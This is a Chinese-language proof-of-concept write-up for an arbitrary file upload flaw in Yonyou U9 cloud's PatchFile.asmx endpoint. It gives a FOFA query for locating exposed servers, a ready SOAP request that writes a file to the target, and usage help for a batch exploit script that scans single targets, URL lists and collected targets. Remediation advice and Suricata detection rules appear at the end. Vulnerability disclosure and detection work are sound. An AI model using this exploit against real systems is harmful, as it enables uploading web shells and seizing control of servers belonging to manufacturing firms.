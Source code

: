 ### 产品简介  
U9 cloud聚焦中型和中大型制造企业，全面支持业财税档一体化、设计制造一体化、计划执行一体化、营销服务一体化、项目制造一体化等数智制造场景，赋能组织变革和商业创新，融合产业互联网资源实现连接、共享、协同，助力制造企业高质量发展。  

### 漏洞概述  
用友U9 PathchFile.asmx接口处存在文件上传漏洞，恶意攻击者可能会上传shell文件获取服务器权限，造成安全隐患。  

### 指纹识别  
fofa: title=="        U9-登录    "  
![Image text](https://github.com/YUUKI4O4/POC/blob/main/%E7%94%A8%E5%8F%8B/Yongyou_U9_PatchFile.asmx_arbitrary_file_upload/0.png)  

### 漏洞利用  
```
poc:
POST /CS/Office/AutoUpdates/PatchFile.asmx HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64) AppleWebKit/537.36 (KHTML like Gecko) Chrome/44.0.2403.155 Safari/537.36
Connection: close
Content-Type: text/xml; charset=utf-8
  
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <SaveFile xmlns="http://tempuri.org/">
      <binData>MTIzNDU2</binData>
      <path>./</path>
      <fileName>1.txt</fileName>
    </SaveFile>
  </soap:Body>
</soap:Envelope>

```
![Image text](https://github.com/YUUKI4O4/POC/blob/main/%E7%94%A8%E5%8F%8B/Yongyou_U9_PatchFile.asmx_arbitrary_file_upload/1.png)  
![Image text](https://github.com/YUUKI4O4/POC/blob/main/%E7%94%A8%E5%8F%8B/Yongyou_U9_PatchFile.asmx_arbitrary_file_upload/2.png)  
![Image text](https://github.com/YUUKI4O4/POC/blob/main/%E7%94%A8%E5%8F%8B/Yongyou_U9_PatchFile.asmx_arbitrary_file_upload/3.png)  

### 测试和利用脚本  
```
python3 Yongyou_U9_PatchFile.asmx_arbitrary_file_upload.py -h
usage: Yongyou_U9_PatchFile.asmx_arbitrary_file_upload.py [-h] [-t] [-r FILE] [-u URL]

### Yongyou U9 PatchFile.asmx arbitrary file upload. ###

options:
  -h, --help            show this help message and exit
  -t, --target_collection
                        Perform target collection
  -r FILE, --multi_objective_testing FILE
                        Perform multi-objective testing. e.g:python
                        Yongyou_U9_PatchFile.asmx_arbitrary_file_upload.py.py -r ./url.txt
  -u URL, --single_objective_testing URL
                        Perform single-objective testing. e.g:python
                        Yongyou_U9_PatchFile.asmx_arbitrary_file_upload.py.py -u http://xxx.xxx.xxx
```

### 修复建议  
1、请联系厂商进行修复。  
2、如非必要，禁止公网访问该系统。  
3、设置白名单访问。  

### Suricata rules  
```
alert http any any -> any any (msg:"Yongyou U9 PatchFile.asmx arbitrary file upload"; flow:established,to_server; flowbits:set,Yongyou_U9_PatchFile; content:"post";http_method;nocase; content:"/CS/Office/AutoUpdates/PatchFile.asmx?op=SaveFile";http_uri;fast_pattern;nocase; content:"<?xml";nocase;http_client_body;startswith; content:"<binData>";nocase;http_client_body; content:"<fileName>";nocase;http_client_body; pcre:"/<fileName>[^\.]+?\.(jsp|asp|aspx|txt|php|exe|py|dll)/Pi"; reference:url,https://github.com/YUUKI4O4/POC/tree/main/%E7%94%A8%E5%8F%8B/Yongyou_U9_PatchFile.asmx_arbitrary_file_upload; classtype:web-attck; metadata:created_at 2024-01-31,updated_at 2024-01-31,creater:YUUKI4O4; sid:27; rev:1;)
alert http any any -> any any (msg:"Yongyou U9 PatchFile.asmx arbitrary file upload maybe success"; flow:established,from_server; flowbits:isset,Yongyou_U9_PatchFile; content:"415";http_stat_code; reference:url,https://github.com/YUUKI4O4/POC/tree/main/%E7%94%A8%E5%8F%8B/Yongyou_U9_PatchFile.asmx_arbitrary_file_upload; classtype:web-attck; metadata:created_at 2024-01-31,updated_at 2024-01-31,creater:YUUKI4O4; sid:28; rev:1;)
```
